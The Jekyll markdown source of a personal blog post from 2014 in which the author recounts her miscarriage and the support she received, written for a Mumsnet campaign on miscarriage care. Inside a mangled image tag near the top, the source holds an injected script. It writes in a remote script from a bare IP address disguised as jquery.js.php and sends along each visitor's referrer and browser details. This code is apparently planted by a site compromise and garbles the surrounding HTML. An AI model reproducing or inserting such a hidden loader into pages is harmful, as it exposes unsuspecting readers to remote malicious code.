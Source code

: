 ```yaml
---
layout: post
title: 'On Miscarriage'
date: 18-Jun-2014
categories: tbd
---
```


# On Miscarriage

## 18th June 2014

<p  <img class="photo-horiz" ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  Supermarket  1955" src="http://media-cache-ak0.pinimg.com/736x/48/7e/c4/487ec437659299b69b74c13d7a7f8e19.jpg" /></p><p William Klein Four Women,   Supermarket 1955</p><p>**The English blogging network Mumsnet **are campaigning to improve miscarriage services in the UK. They **recently completed a survey on  miscarriage and  found that the treatment and support that women received following a miscarriage often failed to meet the official national UK guidelines.** **When I miscarried, a very sad experience, ** **I had excellent care and support from the Australian medical system, but I found most healing in the women I knew, and the stories they shared with me. **</p><p>**There is a general silence around miscarriage, though - in fact, the Mumsnet survey showed that **only 23% of women who had suffered pregnancy loss had talked about it with their friends. ** In support of Mumsnet, I am posting this piece I write some years ago about my own experience with miscarriage. If you would like to share your own story, support the campaign or read more, find <a href="http://www.mumsnet.com/bloggers/roundups/miscarriage-care-campaign-your-stories">Mumsnet </a>here.**</p><p>**Here is the story of the baby we called Biggles. **</p><p>Pregnant with my first child, I lived in the city, with an osteopath, an aqua-aerobics teacher, a yoga instructor and an office full of supportive women always up for a coffee or four. When the irrepressible Peanut arrived, we packed her up with the toilet paper and the lentils and moved down the coast to a sleepy town on the beach. Now we live up a dirt road with tank water, a composting dunny, a derelict vege garden and neighbourhood sheep. Instead of glamorous gay men and boutique carrots, we have boys on dirt bikes and neighbours who leave lemons at the letterbox.</p><p>When I got knocked up again, my small-town pregnancy was a different experience. Mainly because first time around I was free to spend all my time languishing on the couch, arranging tiny clothes in baby-shapes, eating Chocolate Montes and watching Love My Way. Second-go, I had a toddler who begged at my feet like a dog, hitting herself in the head dramatically until the Montes went back in the fridge. We were in a West Wing phase by then anyway. Life was a little more intense.</p><p>In the early weeks of pregnancy with the foetus we named Banana, my dilemmas were several. First, I had three months between finishing breastfeeding and getting knocked up again. Why didn’t I spend the whole time with a bottle of champagne in one hand and a plateful of Brie, sushi, ham and salami in the other? Secondly, how could I get anything done when I had to sleep for two hours in the middle of the day? Thirdly, did my stomach really pop out twelve minutes after the blue line appeared, or was I just joyfully releasing the belly leftover from last time?</p><p>The major dilemma, though, was this: to tell, or not to tell?</p><p>The generally held wisdom is that you should wait until the magic twelve week moment before releasing the news of your pregnancy to the world at large. It’s all about the prospect of miscarriage. It happens a lot. It happened to us before the adorable Ivy came along.</p><p>At ten weeks pregnant, I was getting ready for work one morning when I discovered a bright red spot of blood. It was the start of a devastating 24 hours that ended in surgery to make sure that all the ‘products of conception’ were removed from my uterus. Things get very clinical very fast with miscarriage. Your foetus has become ‘product’, your baby no longer exists, and you are no longer a mother. I got home feeling empty and shocked, and went to bed.</p><p>My partner got on the phone. He told a few friends and family, who passed on the news. I didn’t want to talk to anyone, but the cards, flowers and messages started arriving and when I returned to work, women sensitively found moments to share their stories with me. I had become part of a community, where the members understood my loss, and shared and grieved with me.</p><p>Miscarriage is an experience shared by, on average, one in six women, although many don’t talk about it, and in the joyful, hopeful world of pregnancy and motherhood, talk of losing babies can seem inappropriate, even distasteful. It can just feel like bad juju. In a subsequent pregnancy, 80-85% of women will go on to produce a healthy baby. I was lucky enough to be among the majority, and in good time Banana became the baby known to us as T-Bone the Beautiful, Foxy the Ox and (surprisingly tall, with sky-blue eyes and golden hair) Sven Olafson the Watchmaker, secret son-of-milkman.</p><p>I’ve never regretted the telling. When you give the people who love you the opportunity, they will support you with kindness and sensitivity, as well as Chocolate Montes. Losing a baby was a sad and traumatic experience, but for us, grieving alone would have been worse. And in my new coast-community, I’m sure I would have found the same circle of female friendship, the shared sadness, and the support.</p>
